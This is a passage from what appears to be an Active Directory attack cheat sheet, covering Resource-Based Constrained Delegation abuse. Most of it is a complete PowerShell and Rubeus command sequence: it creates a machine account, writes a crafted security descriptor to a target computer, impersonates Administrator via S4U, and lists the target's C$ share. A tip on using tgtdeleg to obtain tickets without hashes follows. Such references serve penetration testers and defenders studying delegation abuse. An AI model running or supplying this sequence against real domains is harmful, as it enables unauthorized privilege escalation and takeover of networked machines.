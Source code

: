 First we need to enter the security context of the user/machine account that has the privileges over the object.
If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:

```powershell
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

⧉ Copied!

Detailed Articles:

- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

:exclamation: In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED\_TO\_AUTH\_FOR\_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.
